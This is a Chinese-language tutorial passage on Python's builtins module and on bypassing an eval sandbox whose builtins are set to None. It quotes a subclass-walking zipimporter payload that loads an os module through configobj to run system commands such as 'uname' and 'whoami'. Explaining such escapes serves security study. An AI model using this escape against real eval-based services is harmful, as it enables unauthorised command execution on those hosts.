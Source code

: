 Python 中的**builtins**是内置模块，用来设置内置函数的模块。比如熟悉的 abs，open 等内置函数，都是在该模块中以字典的方式存储的，下面两种写法是等价的：

```Python
	#!python
	>>> __builtins__.abs(-20)
	20
	>>> abs(-20)
	20
```

我们也可以自定义内置函数，并像使用 Python 中的内置函数一样使用它们：

```Python
	#!python
	>>> def hello():
	...     print 'shabi'
	>>> __builtin__.__dict__['say_hello'] = hello
	>>> say_hello()
	shabi
```

小明将 eval 函数的作用域中的内置模块设置为 None，好像看起来很彻底了，但依然可以被绕过。**builtins**是**builtin**的一个引用，在**main**模块下，两者是等价的：

```Python
	#!python
	>>> id(__builtins__)
	3549136
	>>> id(__builtin__)
	3549136
```

根据[乌云 drops](http://drops.wooyun.org/web/7490)提到的方法，使用如下代码即可：

```Python
	#!python
	[x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__ == "zipimporter"][0]("/home/liaoxinxi/eval_test/configobj-4.4.0-py2.5.egg").load_module("configobj").os.system("uname")
```

上面的代码首先利用**class**和**subclasses**动态加载了 object 对象，这是因为 eval 中无法直接使用 object。然后使用 object 的子类的 zipimporter 对 egg 压缩文件中的 configobj 模块进行导入，并调用其内置模块中的 os 模块从而实现命令执行，当然，前提是要有 configobj 的 egg 文件。 configobj 模块很有意思，居然内置了 os 模块：

```Python
	#!python
	>>> "os" in configobj.__dict__
	True
	>>> import urllib
	>>> "os" in urllib.__dict__
	True
	>>> import urllib2
	>>> "os" in urllib2.__dict__
	True
	>>> configobj.os.system("whoami")
	win-20140812chjadministrator
	0
```
